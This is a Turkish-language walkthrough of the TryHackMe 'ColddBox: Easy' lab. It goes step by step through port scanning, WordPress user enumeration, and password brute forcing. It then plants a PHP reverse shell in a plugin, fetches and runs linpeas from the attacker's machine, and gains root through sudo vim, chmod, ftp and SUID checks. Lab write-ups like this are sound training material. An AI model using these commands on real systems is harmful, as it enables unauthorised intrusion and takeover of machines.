 # TRYHACKME ColddBox : Easy WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/colddboxeasy adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 10.10.174.16 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/c1.png)

Tarama sonucunda 4512 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine girince websitesinin wordpress ile yapılmış olduğunu görüyoruz.


![Resim2](pics/c2.png)

Wordpress sitelerine saldırı yapmak için hazırlanmış wpscan aracı ile recon yapmaya başlıyoruz: 

```bash
wpscan --url http://10.10.174.16/ --enumerate 
```
--url hedefi belirtir 

--enumerate websitesi hakkında olabildiğince bilgi edinmemizi sağlar 

![Resim4](pics/c3.png)

![Resim4](pics/c4.png)

Tarama sonucunda wpscan aracı birkaç kullanıcı ismi buluyor . Bu kullanıcıların şifresini öğrenmek için brute force yapıyoruz: 

```bash
wpscan --url http://10.10.174.16/ -U users.txt -P rockyou.txt 
```
--url hedefi belirtir  

-U kullanıcı adlarının bulunduğu dosyayı belirtir

-P şifrelerin bulunduğu dosyayı belirtir

![Resim4](pics/c5.png)

Ve c0ldd kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile websitesine giriş yaptıktan sonra webshell yüklemek için akismet pluginini editleyerek içerisine https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php hazır webshell dosyasının kodlarını yazıyoruz (içerisindeki portu ve ip adresini kendi ipmiz ve kullanmak istediğimiz port ile değiştiriyoruz tabi) . akismet.php dosyasını güncelledikten sonra netcat aracı ile kullanmak istediğimiz portu dinlemeye alıyoruz:   


```bash
nc -lvnp 1337
```
-l dinlemeye geçer 

-v ekstra bilgi verir 

-n dns sorgusunu iptal eder direk ip ile çalışır 

-p port numarasını belirtir

![Resim5](pics/c6.png)

Ardından plugins sayfasında akismet pluginini activate edince içerdeyiz: 

![Resim5](pics/c7.png)

Yetki yükseltme adımını otomatikleştirmek için linux yetki yükseltme aracı olan linpeas i pentest makinemize yükliyoruz: 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

-L curl aracına site yönlendirmelerini takip etmesini söyler 

daha sonra dosyayı gönderebilmek için python ile websrever açıyoruz: 

```bash
python3 -m http.server 7000
```

-m kullanılacak modül belirtir 

Hedefte dosyayı herkesin yazma yetkisi olan bir yere yükleyip çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash 
cd /dev/shm
```
```bash
wget http://_tryhackme_vpn_ip_adresimiz:7000/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```

![Resim5](pics/c8.png)

Tarama sonucunda c0ldd kullanıcısının şifresinin wp-config.php dosyasında yazılı olduğunu görüyoruz ve ardından ssh ile c0ldd kullanıcısı olarak sisteme giriş yapıyoruz:  

```bash 
ssh -p 4512 c0ldd@10.10.174.16
```
-p ssh portunu belirtir

ardından root yetkisi ile çalıştırabileceğimiz komutları öğrenmek için aşağıdaki komutu kullanıyoruz: 

```bash
sudo -l
```

-l yetkileri listeler

Çıktı sonucunda yetkilerimizi 3 farklı yol ile yükseltebileceğimizi görüyoruz. Vim ile yetki yükseltmek için https://gtfobins.github.io/gtfobins/vim/ sayfasına gidiyoruz  

![Resim5](pics/c12.png)

Ve aşağıdaki komut ile yetki yükseltebileceğimizi görüyoruz: 

```bash
sudo vim -c ':!/bin/sh'
```
-c vime çalıştırması gereken programı söyler

![Resim5](pics/c13.png)

chmod komutu ile yetki yükseltmek için ise aşağıdaki komutu kullanıyoruz: 

```bash
sudo chmod 4755 /bin/bash && /bin/bash -p
```
4 suid biti ayarlar yani program her zaman kendi sahibi adına çalışır 
7 dosya sahine read, write, execute yetkisi verir 
5 dosya grubuna read ve execute yetkisi verir 
5 herkese read ve execute yetkisi verir 
&& ve demektir ard arda birden fazla komutu tek satırda çalıştırmak için kullanılır 
-p bash güvenlik nedeniyle root shell i düşürür . Ama bu parametre ile suid varsa shell kalır  

![Resim5](pics/c14.png)

Ftp ile yetki yükseltmek için aşağıdaki komutları kullanıyoruz:

```bash
sudo ftp
```
```bash
!/bin/sh
```

bu sayede ftp üzerinden sh shell açmış oluyoruz. Başka bir yetki yükseltme yöntemi ise suid biti olan find komutu ile yetki yükseltmek . Bunu yapmak için öncelikle sistemdeki tüm suid bitine sahip dosyaları buluyoruz: 

```bash
find / -perm -u=s -type f 2>/dev/null
```
-perm dosyaların izinlerini kontrol eder 

-u=s user (sahip) için suid biti ayarlanmış mı kontrol eder 

-type f  dosya türü f(file) belirtir 

2>/dev/null kontrol etmeye yetkimiz olmayan dosyalar hata verdirecektir. Hata mesajlarını (2>) çöpe(/dev/null) atar 

Ve artık tüm yollarla root olmanın mutluluğu ile odayı bitiriyoruz. 


